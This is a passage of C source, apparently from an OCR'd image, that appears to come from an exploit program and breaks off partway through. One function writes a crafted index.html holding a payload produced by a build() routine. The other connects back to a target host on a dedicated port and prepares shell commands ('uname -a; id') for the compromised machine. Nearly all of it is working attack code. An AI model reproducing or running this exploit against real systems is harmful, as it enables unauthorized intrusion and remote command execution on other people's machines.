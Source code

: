 
    int
    create_file(char *path)
    {
      int fd;
      char buffer[512], file[256];
      ssize_t written;

      memset(file,0,256);
      memset(buffer,0,512);

      strcat(file,path);
      strcat(file,"index.html");

      fd = open(file,O_WRONLY | O_CREAT | O_TRUNC,0644);
      if(fd < 0)
      {
        fprintf(stderr,"[-] %s\n",strerror(errno));
        exit(0);
      }
      snprintf(buffer,512,"<a href=\"/\">empty</a> Fri May 30 10:09:06 2001 %s\n",build("+"));
      written = write(fd,buffer,512);
      if(written != 512)
      {
        fprintf(stderr,"[-] %s\n",strerror(errno));
        exit(0);
      }
      close(fd);
      fprintf(stdout,"[+] File %s successfuly created.\n",file);
      return 0;
    }


    int
    back_connection(long host)
    {
      struct sockaddr_in s;
      u_char sock_buf[4096];
      fd_set fds;
      int fd,size;
      char *command="/bin/uname -a ; /usr/bin/id;\n";

      fd = socket(AF_INET, SOCK_STREAM, 0);
      if (fd < 0)
      {
        fprintf(stderr,"[-] %s\n",strerror(errno));
        exit(1);
      }

      s.sin_family = AF_INET;
      s.sin_port = htons(D_BACK);
      s.sin_addr.s_addr = host;

      if (connect(fd, (struct sockaddr *)&s, sizeof(struct sockaddr)) == -1)
      {
        fprintf(stderr,"[-] %s\n",strerror(errno));
        close(fd);
        return 0;
      }
